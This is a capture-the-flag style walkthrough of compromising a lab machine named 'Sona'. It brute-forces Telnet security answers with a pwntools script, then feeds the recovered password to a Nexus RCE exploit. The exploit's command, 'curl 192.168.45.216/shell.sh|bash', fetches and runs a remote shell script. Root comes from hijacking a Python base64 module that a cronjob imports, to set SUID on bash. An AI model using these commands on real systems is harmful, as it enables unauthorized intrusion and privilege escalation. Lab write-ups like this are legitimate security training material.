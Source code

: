 # Sona

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.159
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 11:22 +08
Nmap scan report for 192.168.240.159
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
23/tcp   open  telnet
8081/tcp open  blackice-icecap
```

### Telnet Creds -> Nexus RCE

Port 8081 was hosting a vulnerable version of Nexus Repository Manager:

<figure><img src="../../../.gitbook/assets/image (3019).png" alt=""><figcaption></figcaption></figure>

This version has RCE exploits, but we need credentials.

```
$ searchsploit nexus 3.21
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- --------------------------------
```

Weak credentials like `admin:admin` or `nexus:nexus` didn't work. In this case, let's check out out Telnet on port 23.&#x20;

```
$ nc -vn 192.168.240.159 23
(UNKNOWN) [192.168.240.159] 23 (telnet) open
====================
NEXUS BACKUP MANAGER
====================
ANSONE  Answer question one
ANSTWO  Answer question two
BACKUP  Perform backup
EXIT   Exit
HELP   Show help
HINT   Show hints
RECOVER Recover admin password
RESTORE Restore backup
```

We can somehow recover the password from this. We can interact with this application a bit:

```
HINT
1.What is your zodiac sign?
2.What is your favorite color?
RECOVER
Please Enter Password
RECOVER <password>
ANSONE
Please Enter Answer
ANSONE <answer>
```

I wasn't sure how to get this, so let's use the ANSONE and ANSTWO options to check our options. I made a list of colours and zodiac signs:

{% embed url="https://github.com/imsky/wordlists/blob/master/adjectives/colors.txt" %}

```
capricorn
aquarius
aries
libra
scorpio
virgo
taurus
pisces
gemini
leo
cancer
sagittarius
```

Afterwards, we can create a Python script to brute force out the answer based on this.&#x20;

```python
from pwn import *

def interact(word):
	r = remote('192.168.240.159', 23)
	for i in range(11):
		r.recvline()
	r.sendline(b'ANSONE')
	r.recvline()
	r.recvline()
	r.sendline(word.encode())
	response = r.recvline()
	if b'Incorrect' in response:
		r.close()
	else:
		log.info("Correct!")
		log.info(f"Password is {word}")
		r.close()
		
def main():
	with open ('colours.txt', 'r') as file:
		for line in file:
			interact(line)

main()
```

This would slowly brute force the first answer, which is `black`:

```
$ python3 brute.py
<TRUNCATED>
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is black
[*] Closed connection to 192.168.240.159 port 23
```

Now we can do the same for the zodiac signs and ANSTWO.&#x20;

```
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is leo
[*] Closed connection to 192.168.240.159 port 23
```

So the correct answers are 'black' and 'leo'. We can create a wordlist with these words, which is just:

```
black
leo
leoblack
blackleo
```

`blackleo` is the correct password:

```
RECOVER
Please Enter Password
RECOVER <password>
blackleo
3e409e89-514c-4f9f-955e-dfa5c4083518
```

Using this, we can run the exploit with these parameters:

```python
URL='http://192.168.240.159:8081'
CMD='curl 192.168.45.216/shell.sh|bash'
USERNAME='admin'
PASSWORD='3e409e89-514c-4f9f-955e-dfa5c4083518'
```

I had a lot of trouble getting a shell on this machine for some reason. Eventually, I just decided to use `msfconsole` to exploit this.&#x20;

<figure><img src="../../../.gitbook/assets/image (3229).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob -> Python Module Hijack

I ran a `linpeas.sh` scan on the machine and found an interesting permission set:

```
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
<TRUNCATED>
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

We can write to `base64.py`, which is the module being used here. I ran `pspy64` as well to see if this file was being executed in anyway.&#x20;

```
2023/07/07 04:19:01 CMD: UID=0    PID=58840  | python3 /home/sona/logcrypt.py 
```

This file was being run every minute:

```
nexus@sona:/etc/cron.d$ cat logcrypt
cat logcrypt
* * * * * root python3 /home/sona/logcrypt.py
```

Within the `/tmp` directory, there was a `log.crypt` file that contained a huge `base64` encoded file:

{% code overflow="wrap" %}
```
nexus@sona:/tmp$ cat log.crypt
cat log.crypt
SnVsICA3IDAzOjI3OjQ1IHNvbmEgVkdBdXRoWzc4OF06IHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLgpKdWwgIDcgMDM6Mjc6NDYgc29uYSBWR0F1dGhbNzg4XTogbWVzc2FnZSByZXBlYXRlZCAyIHRpbWVzOiBbIHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLl0KSnVsICA3IDAzOjI3OjUxIHNvbmEgVkdBdXRoWzc4
<TRUNCATED>
```
{% endcode %}

The file was also owned by `root`, meaning that this likely being generated by the `logcrypt` cronjob. I just echoed in `import os;os.system("chmod u+s /bin/bash")` within the `base64.py` file and it worked!

```
nexus@sona:/usr/lib/python3.8$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

<figure><img src="../../../.gitbook/assets/image (1619).png" alt=""><figcaption></figcaption></figure>
